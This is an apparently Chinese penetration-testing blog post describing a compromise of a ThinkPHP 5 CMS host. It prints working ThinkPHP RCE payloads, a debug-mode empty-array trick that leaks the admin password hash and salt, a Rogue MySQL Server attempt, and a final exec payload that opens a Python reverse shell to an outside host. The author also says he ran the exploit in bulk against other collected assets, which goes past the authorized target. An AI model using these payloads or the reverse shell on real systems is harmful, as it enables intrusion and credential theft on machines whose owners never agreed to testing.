 ```yaml
---
layout: post
title: "串联脆弱点实现外部打点"
tags: [Hacking, Pentest, Tricks]
comments: true
---
```


## 前言

> [#] Author: xxxeyJ

> [#] Blog: https://tricksongs.com/

前段时间 homie 传给我一个授权项目，希望空了能帮忙看下，拿下目标的过程蛮曲折的，在这里记录一下 `心路历程`，由于打点时部分图片忘记保存，导致文章可能存在 `断层`，见谅；

## 肾透过程

目标是一个 IP 资产，主体服务运行在 `80` 端口上，由于是 IP 资产，且通过各种渠道无法逆推出其域名后 (很可能压根就没有域名解析到此IP) ，然后就打消掉了子域收集的念头，之后就是一套常规操作，端口扫描，对症下药；

## 信息收集

```
1.1.1.1:22	SSH服务	OpenSSH7.4protocol 2.0
1.1.1.1:888	Web服务	Nginx 中间件
1.1.1.1:3306	MySQL服务	MySQL5.7.29-log
1.1.1.1:80	Web服务	Nginx 中间件 反向代理
1.1.1.1:8888	Web服务	Ajenti HTTP Control Panel
```
`22` 端口和 `3306` 端口一般来说没什么好看的，基本无解，主要看一下3个基于 Web服务的端口:  `80`、`888` 、`8888`;

## 探索脆弱点

访问 80 端口重定向到了一个登陆页面，在 `http://1.1.1.1/` 后面随便添加一点垃圾数据, 直接爆出了 ThinkPHP 异常页面，目标启用了调试模式 (debug) 泄露了 ThinkPHP 版本号为 5.12，PHP 版本为 7.3，基于 ThinkPHP 框架二开的 CMS ；

检索了一下网络上的信息，发现关于此 CMS 的内容特别少，近乎没有，通过 FOFA、Zoomeye、SuMap、Quake 等网络空间搜索引擎检索目标资产特征，打算先搞到一份 CMS 的源码再进行下一步行动，结果事与愿违，抓下来的资产列表没有一个资产泄露CMS源码；

ThinkPHP 报错泄露了 Web 目录于 Linux 操作系统中的绝对路径:	`/www/wwwroot/1.1.1.1/`，基本信息差不多就这些，ThinkPHP Version <= 5.23 存在一个 `RCE` ，先朝目标怼了一波 Payload，最后的结果只有这一个 Payload 是可以执行的，原因很简单，有的 Payload 是因为不支持 GET 请求方法，还有的 Payload 无法执行是因为更改了路由，`think` 路由下的模块及日志文件均无法使用，然后就是目标禁用了N个`危险函数`，`Disable_functions` 列表如下: 

```
passthru,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

看到这个列表蛮头疼的，但是发现好在没有禁用掉 assert 以及 file_put_contents 函数，于是尝试构造 Payload Getshell，但还是因为 PHP 版本过高不支持动态调用便无法 Getshell；

```
POST /

s=file_put_contents('info.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

当前仅可执行如下 Payload;

```
POST /

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
```

由于目前无法通过 TP5 RCE 的途径 `Getshell`，于是开始尝试审计一下目标的功能点，首先是登录功能，截断一下发起的登录请求，经过测试发现，验证码 `可复用`，不过我并不打算尝试跑字典，这种方式太过无脑而且动静太大，性价比极低，除非万不得已，否则我一般不会走跑字典这条路子；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password=admin&verify=3523
```

就在这时，我想到了之前和某师傅交流过 ThinkPHP 5.0.X 的一个小 `tricks`，在目标启用了 debug 模式下并通过敏感功能点传递空数组时可能会引起程序异常从而导致敏感信息泄露；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password[]=&verify=5784
```

成功在 `Error Context` 栏目中拿到管理员的 `Password + Salt` 字段；

![](https://tricksongs.com/images/Hacking_Time/1.jpg)

MD5 解密后顺利登录后台面板，在后台操作的过程中有个功能点与后端产生了数据交互，于是构造一下 `空数组` 直接异常，看到源码之后，芜湖，原地起飞，就贼离谱，直接把 `凭据硬编码` 了，任意一个用户拿着这个密码都可以直接登录面板；

![](https://tricksongs.com/images/Hacking_Time/2.jpg)

后台的功能点蛮多的，但是各个上传点都做了白名单等安全限制，无法 Getshell，蛮遗憾的；

后面由于无法在 80 端口有所突破 ，于是又转到 8888 端口和 888 端口上面，8888 端口的首页是一个宝塔面板的禁止公网访问的提示；

![](https://tricksongs.com/images/Hacking_Time/3.PNG)

看到宝塔和 888 端口，就想起来前段时间的 `phpMyAdmin` 面板未授权访问漏洞，于是构造一下路径 `http://1.1.1.1:888/pma`，尝试访问提示不存在此路径，不巧，看来目标所使用的版本没有此漏洞，想到团队里面有开发宝塔产品的师傅，于是问了一嘴目前有没有宝塔 `前台RCE`，师傅说目前没有，墙裂建议下个版本可以安排一个团队专享版 `RCE` (狗头保命)；

![](https://tricksongs.com/images/Hacking_Time/4.PNG)

然后又对 888 端口和 8888 端口跑了一波字典，没有发现什么有价值的端点，而后又转到 80 端口上面来，先对 80 端口跑了一波字典，跑出来个 install 路径，于是打算尝试一下是否可以利用 `MySQL 文件读取漏洞` 读取目标机的敏感文件，首先判断一下目标程序是否可以对外发起请求，在 VPS 上面使用 nc 监听 3306 端口，然后使用 install 程序连接我的 VPS，发出请求后，VPS 成功接收到了来自目标主机的请求，顿时感觉有戏，于是部署了一下 `Rogue MySQL Server`，本来以为基本上可以结束掉游戏的时候，却突然发现目标禁用掉了MySQL 读取本地文件的功能；

## 收尾工作

当我回过头去看 `Disable_functions` 列表的时候，突然发现目标竟然没有禁用 `exec` ，之前竟然没有发现，我大意了啊，调试了一下 Payload，直接 RCE，然后写了个脚本批量跑了一下之前收集到的资产列表，收工结束；

```
POST /

_method=__construct&filter[]=exec&method=get&server[REWQUEST_METHOD]=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.2.2.2",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## END

A.K.A 穿主流装喝骨头汤的斧头帮的楚留香在熬夜写文章

`Respect`
